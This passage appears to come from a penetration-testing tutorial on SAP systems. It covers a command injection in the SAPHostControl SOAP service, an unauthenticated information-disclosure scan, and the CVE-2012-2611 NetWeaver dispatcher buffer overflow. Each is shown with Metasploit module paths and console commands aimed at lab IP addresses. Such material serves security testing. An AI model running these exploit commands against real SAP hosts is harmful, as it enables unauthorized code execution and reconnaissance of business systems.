 <i/> 4.10 - Exploiting SAPHostControl with Metasploit </i>
```
The component that provides the SOAP endpoint for the SAP Management Console on the TCP port '50013' for the default instance is "startsrv". 

According to the SAP documentation, the executable sapstartsrv runs in host mode for monitoring purposes only.
The interesting thing about this sapstartsrv component is that it’s also listening for SOAP requests. 

The GetDatabaseStatus call was attacked by Michael Jordon in order to get an arbitrary code execution from a command injection.
The exploit for this attack is also available on Metasploit as modules/exploits/windows/http/sap_host_control_cmd_ exec.rb.

It’s worth mentioning that the injection technique inspired @nmonkee when writing the OS command injections for the "SXPG_CALL_SYSTEM_SXPG_CALL_SYSTEM"
 and "SXPG_COMMAND_EXECUTE" RFC SOAP calls
(remember also to check his post for more information about these command injections). 
The GetComputerSystem call was abused by Bruno Morisson to retrieve information related to the remote host without any authentication.
The exploit for this attack is available on modules/auxiliary/scanner/sap/sap_hostctrl_getcomputersystem.rb.
The next screenshot shows the information retrieved: 

msf auxiliary(sap_hostctrl_getcomputersystem) > run
[+] 192.168.172.133:1128 - Information retrieved successfully
[*] 192.168.172.133:1128 - Response stored in /Users/juan/.msf4/loot/20131011090901_default_192.168.172.133_sap.getcomputers_832535.xml
(XML) and /Users/juan/.msf4/loot/20131011090901_default_192.168.172.133_sap.getcomputers_372729.txt (TXT)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(sap_hostctrl_getcomputersystem) > set verbose true
verbose => true
msf auxiliary(sap_hostctrl_getcomputersystem) > run
```	

<i/> 4.11 - SAP NetWeaver Dispatcher </i>
```
The disp+work.exe process is vulnerable to a buffer overflow (CVE-2012-2611) while handling Traces, which can be exploited with the metasploit module modules/exploits/windows/misc/sap_netweaver_dispatcher.rb: 
msf  exploit(sap_netweaver_dispatcher) > use exploit/windows/misc/sap_netweaver_dispatcher
msf  exploit(sap_netweaver_dispatcher) > set RHOST 192.168.1.149
RHOST => 192.168.1.149
msf  exploit(sap_netweaver_dispatcher) > exploit
```

